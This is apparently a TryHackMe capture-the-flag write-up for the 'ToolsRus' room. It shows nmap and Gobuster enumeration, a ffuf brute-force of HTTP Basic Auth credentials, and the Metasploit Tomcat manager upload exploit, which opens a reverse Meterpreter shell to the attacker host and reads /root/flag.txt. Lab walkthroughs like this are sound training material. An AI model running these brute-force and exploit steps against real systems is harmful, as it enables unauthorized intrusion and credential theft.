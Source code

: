 ```yaml
---
title: "ToolsRus"
date: 2025-02-04
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF ToolsRus
categories: [TryHackMe, Easy]
tags: [linux, metasploit, tomcat]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>ToolsRus</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/toolsrus">https://tryhackme.com/room/toolsrus</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge ToolsRus.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap 10.10.236.30 
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-04 12:52 EDT
    Nmap scan report for 10.10.236.30
    Host is up (0.049s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    1234/tcp open  hotline
    8009/tcp open  ajp13

    Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,1234,8009 10.10.236.30
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-04 12:52 EDT
    Nmap scan report for 10.10.236.30
    Host is up (0.045s latency).

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e8:5a:05:e2:2e:0e:37:f0:f7:62:c9:89:a1:85:c0:10 (RSA)
    |   256 e9:1b:25:56:5f:22:0f:54:db:c6:54:43:84:cb:c0:6d (ECDSA)
    |_  256 b2:c6:2b:b0:3a:23:1b:dc:c1:bf:10:65:fb:bc:c7:1b (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-server-header: Apache-Coyote/1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

I began with a directory enumeration using Gobuster:
```bash
gobuster dir --url http://10.10.236.30/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.185.39/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /guidelines           (Status: 301) [Size: 317] [--> http://10.10.185.39/guidelines/]
  /protected            (Status: 401) [Size: 459]
```

### Directory /guidelines Analysis

The site only contained a note addressed to bob:
```text
Hey bob, did you update that TomCat server?
```

### Directory /protected Analysis

The website required HTTP Basic Authentication. Since I had the username `bob`, I attempted to brute-force his login using ffuf:
```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -u http://bob:FUZZ@110.10.236.30/protected -fs 459

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bob:FUZZ@10.10.185.39/protected
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 459
________________________________________________

b[removed]s                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 39ms]
```

Great! I was able to log in, but the website only displayed a note stating that the content had been moved to a different port:
```text
This protected page has now moved to a different port.
```

## Port 1234 Analysis

The webserver displayed a Apache Tomcat/7.0.88 installation. I continued with a Gobuster directory enumeration and found the manager directory, which caught my attention:
```bash
$ gobuster dir --url http://10.10.236.30:1234 --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.236.30:1234
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

After researching the version numbers, I discoverd an interesting post on the <a href="https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/">Rapid7</a> website. Using this information, I launched Metasploit and searched for the relevant module. After loading it, I set the required options:
```bash
msf6 > search tomcat_mgr_upload

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_mgr_upload  2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   1    \_ target: Java Universal           .                .          .      .
   2    \_ target: Windows Universal        .                .          .      .
   3    \_ target: Linux x86                .                .          .      .
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword b[removed]s
HttpPassword => b[removed]s
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.236.30
RHOSTS => 10.10.236.30
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST [attackerip]
LHOST => [attackerip]
```

After executing the exploit, I obtained a reverse Meterpreter shell and successfully retrieved the flag:
```bash
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

  [*] Started reverse TCP handler on [attackerip]:4444 
  [*] Retrieving session ID and CSRF token...
  [*] Uploading and deploying XOnfJ5Lv3xb...
  [*] Executing XOnfJ5Lv3xb...
  [*] Undeploying XOnfJ5Lv3xb ...
  [*] Sending stage (57971 bytes) to 10.10.236.30
  [*] Undeployed at /manager/html/undeploy
  [*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.236.30:51702) at 2025-02-04 13:18:30 -0400

meterpreter > ls /root
  Listing: /root
  ==============

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  100667/rw-rw-rwx  47    fil   2019-03-11 12:06:14 -0400  .bash_history
  100667/rw-rw-rwx  3106  fil   2015-10-22 13:15:21 -0400  .bashrc
  040777/rwxrwxrwx  4096  dir   2019-03-11 11:30:33 -0400  .nano
  100667/rw-rw-rwx  148   fil   2015-08-17 11:30:33 -0400  .profile
  040777/rwxrwxrwx  4096  dir   2019-03-10 17:52:32 -0400  .ssh
  100667/rw-rw-rwx  658   fil   2019-03-11 12:05:22 -0400  .viminfo
  100666/rw-rw-rw-  33    fil   2019-03-11 12:05:22 -0400  flag.txt
  040776/rwxrwxrw-  4096  dir   2019-03-10 17:52:43 -0400  snap

meterpreter > cat /root/flag.txt
  [removed]
```

solved! :)